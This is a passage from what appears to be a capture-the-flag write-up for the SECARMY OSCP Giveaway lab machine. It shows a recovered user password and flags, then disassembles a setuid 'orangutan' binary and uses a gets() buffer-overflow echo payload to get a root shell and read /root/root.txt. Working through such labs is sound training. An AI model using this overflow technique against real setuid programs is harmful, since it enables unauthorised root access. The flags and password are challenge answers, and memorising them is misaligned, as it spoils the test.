Choose the keyboard layout the QWERTY and press decrypt:



There is it! nueve password is `355u4z4rc0`

FLAG:
```
flag9{689d3e}
```
## ROOT flag
Home directory:
```bash
nueve@svos:~$ ls -la
total 56
drwx------  5 nueve nueve 4096 Oct 22 09:21 .
drwxr-xr-x 12 root  root  4096 Oct 19 11:05 ..
-rw-r--r--  1 nueve nueve  220 Sep 22 11:40 .bash_logout
-rw-r--r--  1 nueve nueve 3771 Sep 22 11:40 .bashrc
drwx------  3 nueve nueve 4096 Oct  5 13:29 .cache
-rw-rw-r--  1 nueve nueve   61 Oct  5 08:54 flag9.txt
drwx------  3 nueve nueve 4096 Sep 22 11:41 .gnupg
drwxrwxr-x  3 nueve nueve 4096 Sep 27 13:38 .local
---Sr-xr-x  1 root  root  8728 Oct  5 13:31 orangutan
-rw-r--r--  1 nueve nueve  807 Sep 22 11:40 .profile
-rw-r--r--  1 root  root  6360 Oct 16 17:29 readme.txt
-rw-r--r--  1 nueve nueve    0 Sep 22 11:41 .sudo_as_admin_successful
```
Notice the `orangutan` is set to run as root (setuid binary file)

Therefore we can run the program with root priviledge without root password!

The readme.txt is just a "Orang Utan" ASCII art:
```
                                      ,╓╓╖╗╗╗╗╖╖╓,
                                ,╓╗╬╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫▓@╗,
                             ╓@▓╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫@╖
                          ,╗▓╫╫╫▓▀▓╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╬╣╫╫╫╫@,
                        ,#╫╫╫▓▓░░░░╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫Ñ░░░╣▓╫╫╫▌µ
                     ,╗▓╫╫╫╫▓▀░░░░░░╩╫╫Ñ╫╫╫╫╫╫╫╫░╫╫Ñ░░░░░░╠▓▓╫╫╫╫@µ
                   ╓╬╫╫╫╫╫╫▓▌░░░░░╩"``   ╙╫╫╫╫M   ``"╨╦░░░░╠▓▓╫╫╫╫╫▓╗
                 ╓╣╫╫╫╫╫╫╫▓▓░░░░╩  ,╦NÑÑNÑ░╫╫Ñ░NÑÑN╦╥  ╙░░░░╟▓▓╫╫╫╫╫╫╫W
               ,╬╫╫╫╫╫╫╫╫▓▓▌░░░╨  ╦░░░▄▓▓▄░░░░╠▓▓▓▄░░Ñ  1░░░░▓▓╫╫╫╫╫╫╫╫▓µ
              ╔╫╫╫╫╫╫╫╫╫╫▓▓▒░░░░╦N░░░╙████░░░░║███▌░░░╦╦N░░░░▓▓╫╫╫╫╫╫╫╫╫╫@
             ╬╫╫╫╫╫╫╫╫╫╫╫▓▓M░░░░░░░░░░░╠╠░░░░░░╙╠░░░░░░░░░░░░╣▓▓╫╫╫╫╫╫╫╫╫╫▓
            ╬╫╫╫╫╫╫╫╫╫╫╫╫▀░░░░░░░░░░░░░░░░╬╫╬╫░░░░░░░░░░░░░░░░╠▓╫╫╫╫╫╫╫╫╫╫╫╫,
           ╬╫╫╫╫╫╫╫╫╫╫╫▓Ñ░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░╣╫╫╫╫╫╫╫╫╫╫╫╫
          ╟╫╫╫╫╫╫╫╫╫╫╫▓M░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░▓▓╫╫╫╫╫╫╫╫╫╫▓
         ╔╫╫╫╫╫╫╫╫╫╫╫▓▓░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░╟▓▓╫╫╫╫╫╫╫╫╫╫▌
         ╫╫╫╫╫╫╫╫╫╫╫▓▓▌░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░╟▓▓▓╫╫╫╫╫╫╫╫╫╫U
        ╟╫╫╫╫╫╫╫╫╫╫╫▓▓▓░░░░░░░░░╠▄▄░░░░░░░░░░░░░░░░░░░▄▄░░░░░░░░░╟▓▓▓╫╫╫╫╫╫╫╫╫╫▓
        ╫╫╫╫╫╫╫╫╫╫╫╣▓▓▓@░░░░░░░░╠███▓▄▄▄░░░░░░░░╠▄▄▄▓██▀░░░░░░░░╠▓▓▓▓╫╫╫╫╫╫╫╫╫╫╫U
       ╟╫╫╫╫╫╫╫╫╫╫╫╫▓▓▓▓▓░░░░░░░░░░╠▀▀████████████▀▀▀░░░░░░░░░░╟▓▓▓▓▓╫╫╫╫╫╫╫╫╫╫╫▓
       ▓╫╫╫╫╫╫╫╫╫╫╫╫▓▓▓▓▓▓▓▄░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░µ╬▓▓▓▓▓▓╫╫╫╫╫╫╫╫╫╫╫╫╫U
      J╫╫╫╫╫╫╫╫╫╫╫╫╫╫▓▓▓▓▓▓▓▓▓╬µ░░░░░░░░░░░░░░░░░░░░░░░░µ▄╬▓▓▓▓▓▓▓▓╫╫╫╫╫╫╫╫╫╫╫╫╫╫@
      ╟╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫▓▓▓▓▓▓▓▓▓▓▓▓@╬▄▄µ░░░░░░░░µµ▄▄╬▓▓▓▓▓▓▓▓▓▓▓▓▓╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫
      ╣╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫
      ╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫U
      ╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫▌ ╙╫╫╫╫╫╫╫╫M╣╬▀░░░╣▓▓▓▓▓▓▓Ñ░░╠▓M╣▓╫╫╫╫╫╫╫▀ ╙╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫U
     ]╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╡  ╫╫╫▓╩╠╣M░░░░░░░░╫╫╫╫╫╫Ñ░░░░░░░░╣╠╠╢╫╫╫H J╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╡
     ]╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╡ ╔░░╠░░░░░░░░░░░░░╢╫╫╫╫╫░░░░░░░░░░░░░Ö░░N J╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫▌
     ╞╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╡ 1░░░░░░░░░░░░░░░░░╫╫╫╫▌░░░░░░░░░░░░░░░░Ñ J╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫╫▓
     ╟╫╫╫╫╫▓╣╣╣╣╣╫╫╫╫╫╡  1░░░░░░░░░░░░░░░░╣╫╫╫░░░░░░░░░░░░░░░░Ñ  J╫╫╫╫╫▓▓╣╣╣▓╫╫╫╫╫╫
     ╚╣░░░░░░░░░░░░░╠╠╡   1░░░░░░░░░░░░░░░╟╫╫╫░░░░░░░░░░░░░░░Ñ   J╬░░░░░░░░░░░░░░╠╬
     1░░░░░░░░░░░░░░░░H    1░░░░░░░░░░░░░░╫M▀╬░░░░░░░░░░░░░░H     ░░░░░░░░░░░░░░░░░
      ╙╨ª "╨╨``╨╨" ╚╨ª      1░░░░░░░░░░░░Ñ    1░░░░░░░░░░░░H      "╨╨``╨╨" ╚╨ª ª╨╨`
                             ╙░░░░░░░░░╨`      `ªÑ░░░░░░░░H
    
Can u feeeeeed my orangutan ^^
```
Try run the `orangutan` program, it just ask our input and exit:
```bash
nueve@svos:~$ ./orangutan 
hello pwner 
pwnme if u can ;) 
hi

```
It stated pwner means this should be a buffer overflow vulnerability

Running `objdump -d orangutan` command to disassemble the program

If you prefer intel syntax can add `-M intel` flag:
```bash
objdump -d -M intel orangutan
...
...
00000000004007a7 <main>:
  4007a7:	55                   	push   rbp
  4007a8:	48 89 e5             	mov    rbp,rsp
  4007ab:	48 83 ec 20          	sub    rsp,0x20
  4007af:	48 c7 45 f8 00 00 00 	mov    QWORD PTR [rbp-0x8],0x0
  4007b6:	00 
  4007b7:	48 8b 05 c2 08 20 00 	mov    rax,QWORD PTR [rip+0x2008c2]        # 601080 <stdout@@GLIBC_2.2.5>
  4007be:	be 00 00 00 00       	mov    esi,0x0
  4007c3:	48 89 c7             	mov    rdi,rax
  4007c6:	e8 85 fe ff ff       	call   400650 <setbuf@plt>
  4007cb:	48 8b 05 be 08 20 00 	mov    rax,QWORD PTR [rip+0x2008be]        # 601090 <stdin@@GLIBC_2.2.5>
  4007d2:	be 00 00 00 00       	mov    esi,0x0
  4007d7:	48 89 c7             	mov    rdi,rax
  4007da:	e8 71 fe ff ff       	call   400650 <setbuf@plt>
  4007df:	48 8b 05 ba 08 20 00 	mov    rax,QWORD PTR [rip+0x2008ba]        # 6010a0 <stderr@@GLIBC_2.2.5>
  4007e6:	be 00 00 00 00       	mov    esi,0x0
  4007eb:	48 89 c7             	mov    rdi,rax
  4007ee:	e8 5d fe ff ff       	call   400650 <setbuf@plt>
  4007f3:	48 8d 3d 0a 01 00 00 	lea    rdi,[rip+0x10a]        # 400904 <_IO_stdin_used+0x4>
  4007fa:	e8 41 fe ff ff       	call   400640 <puts@plt>
  4007ff:	48 8d 3d 0b 01 00 00 	lea    rdi,[rip+0x10b]        # 400911 <_IO_stdin_used+0x11>
  400806:	e8 35 fe ff ff       	call   400640 <puts@plt>
  40080b:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  40080f:	48 89 c7             	mov    rdi,rax
  400812:	b8 00 00 00 00       	mov    eax,0x0
  400817:	e8 44 fe ff ff       	call   400660 <gets@plt>
  40081c:	b8 be ba fe ca       	mov    eax,0xcafebabe
  400821:	48 39 45 f8          	cmp    QWORD PTR [rbp-0x8],rax
  400825:	75 52                	jne    400879 <main+0xd2>
  400827:	bf 00 00 00 00       	mov    edi,0x0
  40082c:	b8 00 00 00 00       	mov    eax,0x0
  400831:	e8 5a fe ff ff       	call   400690 <setuid@plt>
  400836:	bf 00 00 00 00       	mov    edi,0x0
  40083b:	b8 00 00 00 00       	mov    eax,0x0
  400840:	e8 2b fe ff ff       	call   400670 <setgid@plt>
  400845:	bf 00 00 00 00       	mov    edi,0x0
  40084a:	b8 00 00 00 00       	mov    eax,0x0
  40084f:	e8 5c fe ff ff       	call   4006b0 <seteuid@plt>
  400854:	bf 00 00 00 00       	mov    edi,0x0
  400859:	b8 00 00 00 00       	mov    eax,0x0
  40085e:	e8 3d fe ff ff       	call   4006a0 <setegid@plt>
  400863:	ba 00 00 00 00       	mov    edx,0x0
  400868:	be 00 00 00 00       	mov    esi,0x0
  40086d:	48 8d 3d b0 00 00 00 	lea    rdi,[rip+0xb0]        # 400924 <_IO_stdin_used+0x24>
  400874:	e8 07 fe ff ff       	call   400680 <execvp@plt>
  400879:	b8 00 00 00 00       	mov    eax,0x0
  40087e:	c9                   	leave  
  40087f:	c3                   	ret    
```
This line `sub rsp,0x20` means allocate 32 bytes in the stack

And this line `mov QWORD PTR [rbp-0x8],0x0` means a 8 bytes variable initialize to 0 

And the following line, it call `gets` (Cause the buffer overflow) and compare the variable it is equal to 0xcafebabe:
```asm
lea    rax,[rbp-0x20]
mov    rdi,rax
mov    eax,0x0
call   400660 <gets@plt>
mov    eax,0xcafebabe
cmp    QWORD PTR [rbp-0x8],rax
jne    400879 <main+0xd2>
```
If its equal we get a root shell, overwise just exit

I use the simple `echo` command for exploit:
```
echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca" | ./orangutan
```
Using 24 of 'a' and 0xcafebabe in binary and in little endian

Try to run it, but nothing happen..

The shell just exit because no input, so we need to add a command:
```bash
nueve@svos:~$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\nwhoami" | ./orangutan
hello pwner 
pwnme if u can ;) 
root
```
Yes! Looks like we made it!

Then read the root flag!!
```bash
nueve@svos:~$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\nls /root" | ./orangutan
hello pwner 
pwnme if u can ;) 
pw.sh  root.txt  svos_password_recovery
nueve@svos:~$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\ncat /root/root.txt" | ./orangutan
hello pwner 
pwnme if u can ;) 
Congratulations!!!

You have finally completed the SECARMY OSCP Giveaway Machine

Here's your final flag segment: flag10{33c9661bfd}

Head over to https://secarmyvillage.ml/ for submitting the flags!
```
Alternatively, you can add `cat` command to wait for input and get an interactive shell:
```bash
nueve@svos:~$ (echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca";cat) | ./orangutan
hello pwner 
pwnme if u can ;) 

ls
flag9.txt  orangutan  readme.txt
whoami
root
```
That is all the flags!! Thanks to SecArmy for creating this challenge! Easy and Fun to play with